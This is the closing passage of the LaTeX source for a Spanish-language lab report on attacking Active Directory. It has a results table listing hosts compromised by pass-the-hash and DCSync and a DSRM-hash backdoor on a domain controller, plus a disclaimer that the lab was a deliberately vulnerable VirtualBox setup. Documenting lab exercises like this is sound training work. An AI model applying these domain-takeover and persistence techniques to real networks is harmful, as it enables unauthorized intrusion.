WS02   & \textcolor{low}{\textbf{Comprometido}}    & SYSTEM       & PTH svc\_sql (Fase 06) \\
DC01   & \textcolor{low}{\textbf{Comprometido}}    & Domain Admin & DCSync / svc\_backup (Fase 06) \\
DC01   & \textcolor{low}{\textbf{Backdoor activo}} & Local Admin  & DSRM hash (Fase 07) \\
\bottomrule
\end{tabularx}
\end{center}

\vspace{0.6cm}

%% ---- DISCLAIMER ----
\begin{tcolorbox}[colback=lightgray, colframe=bordercolor, boxrule=0.5pt, arc=3pt]
Este reporte documenta un ejercicio de seguridad ofensiva realizado en un
entorno VirtualBox propio, con infraestructura Active Directory deliberadamente
mal configurada con fines educativos. Todas las vulnerabilidades son intencionales
y forman parte del laboratorio \textbf{ad-attack-lab}.

Las tecnicas documentadas \textbf{no deben aplicarse} en infraestructura real
sin autorizacion explicita y escrita del propietario. El uso no autorizado puede
constituir un delito.

\vspace{0.3cm}
\textit{Clark Espinal --- Junio 2026}\\
\url{https://clarkportafolio.vercel.app}
\end{tcolorbox}

\end{document}
